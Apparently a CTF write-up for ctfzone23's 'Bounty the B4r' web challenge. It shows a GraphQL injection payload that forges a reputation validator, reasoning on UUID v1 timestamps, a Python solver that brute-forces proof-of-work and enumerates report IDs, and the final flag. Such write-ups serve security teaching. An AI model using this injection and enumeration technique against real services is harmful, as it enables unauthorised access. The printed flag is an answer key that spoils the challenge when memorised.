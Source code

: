 ```yaml
---
title: "ctfzone23 web/Bounty the B4r"
publishDate: "13 Aug 2023"
description: "Author: cpp.dog"
tags: ["web", "ctfzone23"]
---
```


#### Description
BB stands for Bounty the B4r. Our highly skilled specialists developed the best BB platform ever with a magnificent UI design. We’re waiting for you to report cool findings and let us pay you some $$ or chocolate

#### Code inspection
Here's the most important code of our challenge.

`golang/db/database.go`
```golang
func (db Database) InitFlagReport(flag string) error {
  ...
	program := BBProgram{
		ID:   prUUID.String(),
		Name: "CTFZone Private Program",
		Type: ProgramTypePrivate,
	}

	res = db.Impl.Create(&program)
	if res.Error != nil || res.RowsAffected != 1 {
		return fmt.Errorf("error inserting program to the db: %v", res.Error)
	}

	_, err = db.CreateReport(
		"Very Secret Report~",
		"Flag: "+flag,
		program.ID,
		"Critical",
		"CWE-1",
		7446744073709551610,
	)
  ...
}
```

`golang/controller/program.go`
```golang
func (s *server) PostProgramPUuidJoin(w http.ResponseWriter, r *http.Request, pUuid uuid.UUID) {
	...
	if bbProgram.Type == ProgramTypePrivate && user.Reputation < 100000 {
		api.HandleError(fmt.Errorf("low reputation, try harder"), w)
		return
	}
  ...
}
```

`golang/controller/report.go`
```golang
func (s *server) GetReportRUuid(w http.ResponseWriter, r *http.Request, rUuid uuid.UUID, params api.GetReportRUuidParams) {
  ...
	if bbProgram.Type == ProgramTypePrivate {
		var progMembers db.ProgramMembers
		result = s.db.Impl.First(&progMembers, "user_id = ? AND program_id = ?", userID, bbProgram.ID)
		if result.Error != nil || result.RowsAffected != 1 {
			api.HandleError(fmt.Errorf("you're not a member of this program"), w)
			return
		}
	}
  ...
}
```
`golang/controller/user.go`
```golang
const userDataQery = `query {
	user(username: "%s") {
	  id
	  username
	  name
	  intro
	  reputation
	  rank
	}
}`
...
func verifyValidator(v string) bool {
	m, err := regexp.MatchString("^[a-zA-Z0-9=]{30,40}$", v)
	if err != nil {
		return false
	}
	if m {
		return true
	} else {
		return false
	}
}

func (s *server) PostUserImportReputation(w http.ResponseWriter, r *http.Request) {
  ...
  postBody, _ := json.Marshal(map[string]string{
      "query": fmt.Sprintf(userDataQery, *req.Username),
  })
  resp, err := http.Post("https://hackerone.com/graphql", "application/json", bytes.NewBuffer(postBody))
  ...
  if rd.Data.User.Intro != *req.Validator {
      api.HandleError(fmt.Errorf("incorrect validator"), w)
      return
  }
```
Looks like we need to abuse GraphQL injection for something, let's take a look at hackerone's response for a random h1 user.

```bash
curl -X POST -d `{"query": "query { user(username: \"d0xing\") { id username name intro reputation rank } }"}` -H "Content-Type: application/json" https://hackerone.com/graphql


{
    "data": {
        "user": {
            "id": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA=",
            "username": "d0xing",
            "name": "d0xing",
            "intro": "",
            "reputation": 103907,
            "rank": 2
        }
    }
}
```

The `id` field looks like it can be used as a `validator`, so we can abuse this to get 100k rating on the target site. 

```bash
curl -X POST -d '{
    "username":"d0xing\") { intro:id username reputation rank } u:user(username: \"d0xing", 
    "validator": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA="
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://bounty-the-b4r.ctfz.one/api/user/import_reputation
```

Now we can join `CTFZone Private Program` program without problems. Our new task is to find the report id. The only thing we know is the uuid of programs, and the time report was generated.

```json
[
    {
        "id": "ad1cec14-3830-11ee-b365-0255ac100030",
        "name": "CTFZone Private Program",
        "programType": 1
    },
    {
        "id": "ad1d822a-3830-11ee-b365-0255ac100030",
        "name": "Hooli Public BB Program",
        "programType": 0
    }
]

{
    "published": 1691749220902427748,
    "severity": "Critical",
    "title": "Very Secret Report~"
}
```
So, we need to iterator over the v1 uuid between `ad1cec14-3830-11ee-b365-0255ac100030` and `ad1d822a-3830-11ee-b365-0255ac100030`, but checking each id is not possible due to proof of work. Let's check how uuids are created. 

```golang
// A Time represents a time as the number of 100's of nanoseconds since 15 Oct 1582.
timeLow := uint32(now & 0xffffffff)
```

Since we know the report creation nanotime, we can easily reduce the search range. 

Corresponding uuid v1: `ad1cec14-3830-11ee-b365-0255ac100030`. Now we are ready to get the flag.

#### Solver code
```python
import hashlib
import requests
import json

ALPHABET = "".join([chr(i) for i in range(32, 128)])

FROM_UUID = int("ad1cec14", base=16)
TO_UUID = int("ad1d822a", base=16)
SUFFIX = "-3830-11ee-b365-0255ac100030"

def get_pow(pref, hash): 
  for c in ALPHABET:
    for c1 in ALPHABET:
        for c2 in ALPHABET:
            for c3 in ALPHABET:
                if hashlib.md5((pref + c + c1 + c2 + c3).encode()).hexdigest() == hash:
                    return (pref + c + c1 + c2 + c3)
  return None
for N in range(FROM_UUID, TO_UUID):
  s = requests.get("https://bounty-the-b4r.ctfz.one/api/user/info", headers={
    "Authorization": "Bearer [REDACTED]"
  })
  data = s.json()

  pow = get_pow(data["pow"], data["md5"])

  url = f"https://bounty-the-b4r.ctfz.one/api/report/{hex(N)[2:]}{SUFFIX}?pow={pow}"
  print(f"Trying {url}...")

  r = requests.get(url, headers={
    "Authorization": "Bearer [REDACTED]"
  })

  if r.status_code == 400:
    continue

  print(json.dumps(r.json(), indent=4, sort_keys=True))
```

#### Flag
`CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}`